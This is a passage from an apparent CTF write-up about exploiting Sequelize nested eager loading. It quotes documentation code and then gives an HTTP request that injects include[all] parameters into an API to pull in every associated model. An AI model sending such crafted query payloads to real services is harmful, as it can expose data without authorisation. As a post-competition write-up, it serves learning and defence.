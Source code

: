 ## Exploitation

So, after the CTF ended, I found out that we can do [**nested eager loading** based on this documentation](https://sequelize.org/docs/v6/advanced-association-concepts/eager-loading/#nested-eager-loading):

```javascript
const users = await User.findAll({
  include: {
    model: Tool,
    as: 'Instruments',
    include: {
      model: Teacher,
      include: [
        /* etc */
      ],
    },
  },
});
console.log(JSON.stringify(users, null, 2));
```

With that said, we can do nested eager loading with the following request:

```http
GET /api/writeups?include[all]=All&include[include][all]=All HTTP/1.1
Host: localhost


```
